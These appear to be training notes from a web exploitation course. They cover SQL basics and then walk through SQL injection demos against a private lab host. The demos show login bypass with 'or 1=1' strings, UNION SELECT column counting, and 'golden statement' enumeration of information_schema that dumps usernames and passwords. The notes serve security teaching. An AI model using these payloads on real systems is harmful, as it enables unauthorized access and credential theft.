# Day 3 - Web Exploitation (SQL)

[TOC]

## SQL

In SQL there is a certain structure:

- Database
  - Tables
    - Columns
      - Rows

## General SQL Commands

```bash
show databases; # Lists databases within MySQL
use session; # Puts you inside of database

show tables; # Shows the tables within the database
describe user; # Provides more information on the "user" table

select * from user; # Shows the values from each item in the user database
select * from user where id=1 # Shows the specific row

select id,name,pass from user; # Shows the three columns of name, id, pass for table user

select id,name,pass from session.user # session is the database name. user is the table. On the left, we see the three columns we select. 

select table_schema,table_name,column_name from information_schema.columns # General command
```

## Default Databases

- mysql 
- information_schema
  - If this is present, we can use a Golden Statement to enumerate. 
- performance_schema

We don't care about default databases!

## Useful Commands

```mysql
SELECT Title FROM movies WHERE Title LIKE "Toy Story%"; 
# Search for items like Toy Story
# The % is the wildcard
# The capital items are SQL syntax

SELECT DISTINCT Director FROM movies ORDER BY Director asc;
# Adding in the DISTINCT will remove duplicates. 

SELECT DISTINCT Title FROM movies ORDER BY Year desc LIMIT 4;
# Selects distinct titles from movies and orders them by another column, limiting to 4 items.

SELECT title FROM movies ORDER BY title ASC LIMIT 5 OFFSET 5;
# Will offset the first 5 results and start on the 6th. Limits only to 5 results.

SELECT city, longitude FROM north_american_cities WHERE longitude < -87.629798 ORDER BY longitude ASC;
# Will sort by a value that is greater than

SELECT title, domestic_sales, international_sales FROM movies JOIN boxoffice ON movies.id = boxoffice.movie_id;
# Example below for joined databases

```



```sql
SELECT name, role FROM employees WHERE building IS NULL;
# Displays the empty spots in rows for Buildling

SELECT DISTINCT building_name FROM buildings LEFT JOIN employees ON building_name = building WHERE role IS NULL;
# Example LEFT JOIN
```



## Server-Side Query Process

```sql
SELECT id FROM users WHERE name='$name' AND pass='$pass';
# We replace the variable with a our input and check to see if it's true
SELECT id FROM users WHERE name=tom' or 1='1 AND pass=tom' OR 1='1;
```

### Demo - mySQL 

Website utilized:

```
10.50.11.248
```



We can identify its vulnerable by checking out the source code in page source:


Lets try putting in some creds:





The above text means "Try again". So we failed here.

#### POST Method

Lets try our inject with:

```sql
tom' or 1='1 # In username
tom' or 1='1 # In password
```



**We use our malicious statement in BOTH the username and password fields.** 



This is Welcome Admin in Russian. Success! But - we don't have any further access. Press F12 and go to the Network tab. 

Login again with your malicious creds and check out the 200 POST query:



Now, we need to edit our GET request in the URL with our newfound payload. 

```bash
10.50.11.248/login.php?username=tom%27+or+1%3D%271&passwd=tom%27+or+1%3D%271 
# We added in a '?' after the login.php
```

Now, we can see all the usernames and passwords for this database query:



#### GET Method

Alternatively, we can edit the POST to GET from our Inspector tab within the developer console to get the same information. 

```bash
Change method="POST" to method="GET"
```



Press Log in:



Same result!

## Blind Injection Method

We need to interact the site to identify how many columns prompt

We need to:

1. Count the number of columns that prompt 
2. Check to see if the column is vulnerable
3. Golden Statement or Specific statement

```sql
# GET Method
php?item=4 #Count columns after this. 

php?item=4 or 1=1 # Testing if vulnerable CYCLE THE FILES/NUMBERS. IF "4" (in this example - other SQL injection will be different) doesn't work, try other known stuff

# Test the number of columns
php?item=4 union select 1,2,3,4# '# If we get an error, we add another number 4,5,6 etc

# Once verified, we can run some functions
php?item=4 union select 1,2,@@version # Assumes there are three columns

# Golden statement - only uses three columns. We can add ,4,5 to add columns
php?item=4 union select table_schema,table_name,column_name from information_schema.columns

# Adjust the golden statement
http://10.50.11.248/uniondemo.php?Selection=2 union select id,name,pass from session.user
```

```sql
# POST Method
Ford' or 1='1     # Ford needs to match a name of an item we input into the input box

Audi' union select 1,2,3,4# '# Check to see the number of columns. Adjust to more or less depending

Audi' union select table_schema,2,table_name,column_name,5 from information_schema.columns# 
'# Golden statement. Adjust to the correct columns that show

# Further adjust golden statement based off of info we find in our golden statement
Audi' union select id,2,name,pass,5 from session.user#

```

information_schema = database
table_name = table
column_name = column

### Demo Blink Inject - POST

Website utilized:

```
10.50.11.248/Union.html
```



Lets test to see if this is using SQL:

We entered Ford and Submitted:



Notice how we have data and that we have FOUR columns!

Lets test to see if vulnerable:

```
Ford' or 1='1
```



We get nothing:



Test each of the options (Ford, Dodge, Honda, Audi)

We find that Audi is vulnerable!



Now, test the number of columns:

```php
Audi' union select 1,2,3,4# '# We're using 4 numbers due to the number of columns
```

This fails as we need to adjust our columns.


Adjust to 5 columns:

```php
Audi ' union select 1,2,3,4,5# '#We're using 5 numbers now
```

Success!



IMPORTANT: Notice how we only see 1,3,4,5 for the column numbers. There's nothing in 2!

Now lets do some further enumeration. We adjust our golden statement by filling in the second column with an arbitrary 2 and keep the good stuff in 1,3,4,5

```php
Audi' union select table_schema,2,table_name,column_name,5 from information_schema.columns#
```



**Ignore** information_schema, performance_schema, and mysql

Find key information and then adjust our golden statement.



New adjusted golden statement:

```sql
Audi' union select id,2,name,pass,5 from session.user#
'# name,pass is from the golden statement columns. session.user is from database and table used
```

We get the information requested from our updated golden statement parameters!



### Demo Blink Inject - GET

Website utilized:

```
10.50.11.248/Union.html
```



Upon selecting Goodyear, we see three columns:



Now, test if a vulnerability exsists, this is done within the url. First, we remove the redundant data



Now, add in our malicious true statement to check if vulneralbe:

```
=1 or 1=1
http://10.50.11.248/uniondemo.php?Selection=1 or 1=1
http://10.50.11.248/uniondemo.php?Selection=2 or 1=1
```

The first failed, so we tried changing 1 to 2 and ran again


Now lets try our union statement:

```
http://10.50.11.248/uniondemo.php?Selection=2 union select 1,2,3
http://10.50.11.248/uniondemo.php?Selection=2 union select 1,2,@@version
```



Success! If this failed, we need to adjust the numbers searched (e.g., 1,2,3,4)

Now lets use our Golden Statement:

```
http://10.50.11.248/uniondemo.php?Selection=2 union select Table_schema,table_name,column_name from information_schema.columns
```


Success! Look for non-redundant data, probably at the end. 



Adjust our golden statement:

```
http://10.50.11.248/uniondemo.php?Selection=2 union select id,name,pass from session.user
```

Success!



If fail, to troubleshoot, test each column

```
http://10.50.11.248/uniondemo.php?Selection=2 union select id,2,3 from session.user
http://10.50.11.248/uniondemo.php?Selection=2 union select id,pass,3 from session.user
http://10.50.11.248/uniondemo.php?Selection=2 union select id,2,pass from session.user

etc etc
```

